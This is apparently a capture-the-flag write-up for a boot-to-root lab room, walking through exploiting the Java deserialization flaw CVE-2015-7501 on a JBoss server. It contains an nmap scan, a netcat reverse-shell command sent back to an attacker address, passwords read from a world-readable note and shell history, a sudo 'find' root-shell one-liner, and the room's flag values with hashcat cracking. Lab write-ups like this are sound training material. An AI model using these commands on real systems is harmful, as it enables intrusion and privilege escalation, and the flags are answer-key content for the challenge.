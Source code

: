 # Tony the Tiger

![room logo](assets/RoomLogo.png)  
Learn how to use a Java Serialisation attack in this boot-to-root

## Summary

This boot2root room focuses on exploiting a particular **CVE** that is associated
with many popular web publishing platforms. All these platforms rely on a Java
Server backend. The **CVE** being highlighted is [CVE-2015-7501](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-7501).  
It is described as a vulnerability that, from the **NVD**(National Vulnerability Database),
"allow remote attackers to execute arbitrary commands via a crafted serialized Java object,
related to the Apache Commons Collections (ACC) library.  
So this is a _deserialization_ attack on the Java backend.  

Now I'm no expert at this and I'm still trying to get my head around just
what's going on here with serialization. To my monkey brain basically the site your browser is rendering makes calls to the web server that include trading data in the form of _Objects_. These _Objects_ are nothing more than organized data structures. They follow rules and are used to trade information about  types of data and what that data is. By manipulating an object being sent to  the web server an attacker can send data the server doesn't necessarily expect, but it knows how to deal with it. Similar to an xml entity injection, we are going to send a crafted data object that instead of telling the web server what name or which comment to render, we are going trick it into using a method to process some data the web site author left available and it will run some executable code that we direct it to.  

## Enumeration

Nmap fed by rustscan  

```

$ Nmap 7.93 scan initiated Sun Oct  2 20:50:11 2022 as: nmap -sC -sV -oN scans/tonythetiger_allPorts -vvv -p 22,80,1090,1091,1099,1098,4712,4713,5500,5501,8083,8080 10.10.246.141
Nmap scan report for 10.10.246.141
Host is up, received syn-ack (0.24s latency).
Scanned at 2022-10-02 20:50:12 EDT for 172s

PORT     STATE SERVICE     REASON  VERSION
22/tcp   open  ssh         syn-ack OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.13 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http        syn-ack Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
| http-methods:
|_  Supported Methods: POST OPTIONS GET HEAD
|_http-generator: Hugo 0.66.0
|_http-title: Tony&#39;s Blog
1090/tcp open  java-rmi    syn-ack Java RMI
|_rmi-dumpregistry: ERROR: Script execution failed (use -d to debug)
1091/tcp open  java-rmi    syn-ack Java RMI
1098/tcp open  java-rmi    syn-ack Java RMI
1099/tcp open  java-object syn-ack Java Object Serialization
| fingerprint-strings:
|   NULL:
|     java.rmi.MarshalledObject|
|     hash[
|     locBytest
|     objBytesq
|     #http://thm-java-deserial.home:8083/q
|     org.jnp.server.NamingServer_Stub
|     java.rmi.server.RemoteStub
|     java.rmi.server.RemoteObject
|     xpwA
|     UnicastRef2
|_    thm-java-deserial.home
4712/tcp open  msdtc       syn-ack Microsoft Distributed Transaction Coordinator (error)
4713/tcp open  pulseaudio? syn-ack
| fingerprint-strings:
|   DNSStatusRequestTCP, DNSVersionBindReqTCP, FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, Help, JavaRMI, Kerberos, LANDesk-RC, LDAPBindReq, LDAPSearchReq, LPDString, NCP, NULL, NotesRPC, RPCCheck, RTSPRequest, SIPOptions, SMBProgNeg, SSLSessionReq, TLSSessionReq, TerminalServer, TerminalServerCookie, WMSRequest, X11Probe, afp, giop, ms-sql-s, oracle-tns:
|_    126a
5500/tcp open  hotline?    syn-ack
| fingerprint-strings:
    [...]
|[--> thm-java-deserial <-- There's an Indicator]
5501/tcp open  tcpwrapped  syn-ack
8080/tcp open  http        syn-ack Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-open-proxy: Proxy might be redirecting requests
|_http-favicon: Unknown favicon MD5: 799F70B71314A7508326D1D2F68F7519
| http-methods:
|   Supported Methods: GET HEAD POST PUT DELETE TRACE OPTIONS
|_  Potentially risky methods: PUT DELETE TRACE
|_http-title: Welcome to JBoss AS
8083/tcp open  http        syn-ack JBoss service httpd
|_http-title: Site doesn't have a title (text/html).
Read data files from: /usr/local/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Oct  2 20:53:04 2022 -- 1 IP address (1 host up) scanned in 173.01 seconds
```
Our initial port scan used `rustscan` to pass a list of ports to `nmap` for evaluation. Get the best of both worlds that way. Pleasantly fast large range
scanning from `rustscan` and the well tested evaluation methods and features of  `nmap` without forcing Nmap to figure out what to test in the first place.  
There is a JBoss server running on `port 8080`.  

The room itself kindly supplies us with some exploit code in the form of
payload and a python2 script to deliver the payload.  This script takes a
**target** with **command** as parameters and apparently attempts to verify if the command was successfully run.  

I tested by attempting to ping my attacker IP from the the server FTW!  

![PoC exploit code](assets/test_exploit.png)

With that win in hand, it's time to launch a shell back to our attacker box. If    we're *_lucky_* then there will be a `netcat` binary in our path and we can easily shovel a bash shell back to ourselves.  
` ./exploit.py <target.ip> "nc -e /bin/bash <attackers.ip> <attackers.port>`  

![success](assets/shell_success.png)  

Houston, we have lift off!!!

Looking for a flag now. Something related to "_JBoss_" I presume. Wander around the file system and lo! and behold! there is a diry in /home for jboss. Even better, cmnatic left some creds in a world-readable file named `note`

	cat jboss/note
	Hey JBoss!

	Following your email, I have tried to replicate the issues you
	were having with the system.

	However, I don't know what commands you executed - is there any
	file where this history is stored that I can access?

	Oh! I almost forgot... I have reset your password as requested
	(make sure not to tell it to anyone!)

	Password: likeaboss

	Kind Regards,
	CMNatic


I suspect there is something valuable in jboss shell history file, oh, and
thanx for the fish. I mean creds.  

Pawing thru `/home/jboss/.bash_history`  
I see a flag! I see a flag!

![jboss flag](assets/jboss_flag.png)  

We can see from the history file listing that the *flag* was written to `jboss.txt` then moved to `.jboss.txt`, a so called *hidden* file. But why bother with those details. Just pull the flag directly from the *history* and be done with it :smiley:  

## Escalation

The hint for the PrivEsc portion of our Tasks indicates one avenue of PrivEsc
will be brute forcing a login.

![](assets/privesc_hint.png)  

But I was wrong. With creds in hand for the _jboss_ user, I found I had some `sudo` privs that let me bypass authentication for `root`. Turns out, it was
the "flag" that needed the attention of a hash cracker. And alas, the ever popular **rockyou.txt** did have our needed translation. Apparently it's _de rigueur_to include that file in collections of known breached passwords.  

##### Here are the steps to get from `root.txt` to **FLAG**

1. Using an incantation from [GTFObins](https://gtfobins.github.io/gtfobins/find/#sudo)  

	sudo find . -exec /bin/sh \; -quit ==> to launch a root shell.  

2.
```
$ cat /root/root.txt
QkM3N0FDMDcyRUUzMEUzNzYwODA2ODY0RTIzNEM3Q0Y==
```

Which looks suspiciously like a _base64_ encoded string  

3.
```
cat /root/root.txt | base64 -d  
BC77AC072EE30E3760806864E234C7CF
```

4. Grab that string and plug it into `hashcat` back on our attacker box.
```
hashcat -m 0 -a 0 hash.txt --wordlist /usr/share/wordlists/rockyou.txt
```


#### That's a wrap for this boot2root
